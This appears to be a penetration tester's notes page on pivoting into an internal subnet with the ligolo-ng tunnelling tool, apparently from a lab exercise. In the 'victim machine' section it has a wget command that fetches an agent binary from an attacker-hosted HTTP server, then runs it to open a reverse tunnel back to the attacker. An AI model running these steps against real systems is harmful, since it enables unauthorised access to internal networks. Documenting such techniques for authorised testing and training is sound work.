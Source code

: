 ## a) Attacker Machine Setup: (Nigolo-Proxy/Server)

#### a.1) Download agent & proxy on attacker machine 
##### I. Proxy / Server:
``#wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
``#tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
``#chmod +x proxy

##### II. Agent / Client:
``#wget  https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
``#tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
``#chmod +x agent

#### a.2) Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim machine. 
``# sudo ip tuntap add user $(whoami) mode tun ligolo
``# sudo ip route del 192.168.98.0/24 dev tun0
``# sudo ip link set ligolo up
``# sudo ip route add 192.168.98.0/24 dev ligolo
``# ./proxy -selfcert -laddr 0.0.0.0:443
![[Pasted image 20250823201611.png]]

Confirm the route on your attacker machine. The internal IP range is now added in the route.
![[Pasted image 20250823202004.png]]

## b) Victim Machine Setup: (Nigolo-Agent/Client)
#### b.1) Attacker Machine: 
``#cd /home/kali/Desktop
``#python3 -m http.server 8899

#### b.2) Victim Machine: 
``#wget http://10.10.200.225:8899/agent
``# ./agent -connect 10.10.200.225:443 -ignore-cert
![[Pasted image 20250823202706.png]]
--> Connection received between attacker machine & 192.168.98.0/24 subnet.

#### b.3) Attacker Machine:
![[Pasted image 20250823202645.png]]

On the ligolo-ng proxy, check the session & start the tunnel.
```
>>>session  
>>>list_tunnels  
>>>start  
```
![[Pasted image 20250823203239.png]]

Now fire up a new terminal & check that we can now access the internal IP range 192.168.98.0/24 
``#ping 192.168.98.15
![[Pasted image 20250823203134.png]]
